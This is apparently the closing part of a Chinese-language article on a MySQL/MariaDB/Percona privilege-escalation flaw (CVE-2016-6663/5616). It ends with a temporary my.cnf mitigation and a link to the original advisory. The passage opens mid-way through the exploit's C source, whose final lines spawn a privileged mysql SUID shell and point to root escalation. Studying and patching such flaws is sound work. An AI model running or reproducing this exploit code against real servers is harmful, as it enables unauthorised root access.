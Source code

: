 ```
    printf("n[+] Spawning the 33[94mmysql SUID shell33[0m now... n    Remember that from there you can gain 33[1;31mroot33[0m with vuln 33[1;31mCVE-2016-666233[0m or 33[1;31mCVE-2016-666433[0m :)nn");
    system(SUID_SHELL " -p -i ");
    //system(SUID_SHELL " -p -c '/bin/bash -i -p'");
    /* close MySQL connection and exit */
    printf("n[+] Job done. Exitingnn");
    mysql_close(conn);
    return 0;
`}`
```

**<br>**

**视频参考(11.04 9:37更新）：<br>**

****







**临时解决办法：**

****

在my.cnf中添加

```
symbolic-links = 0
```

**<br>**

**参考链接：**

****

[http://legalhackers.com/advisories/MySQL-Maria-Percona-PrivEscRace-CVE-2016-6663-5616-Exploit.html](http://legalhackers.com/advisories/MySQL-Maria-Percona-PrivEscRace-CVE-2016-6663-5616-Exploit.html)



[![](https://p2.ssl.qhimg.com/t01ccfa91a61b277982.jpg)](https://p2.ssl.qhimg.com/t01ccfa91a61b277982.jpg)[![](https://p4.ssl.qhimg.com/t01bc1688d2010fb70a.jpg)](https://p4.ssl.qhimg.com/t01bc1688d2010fb70a.jpg)[](http://legalhackers.com/advisories/MySQL-Maria-Percona-PrivEscRace-CVE-2016-6663-5616-Exploit.html)
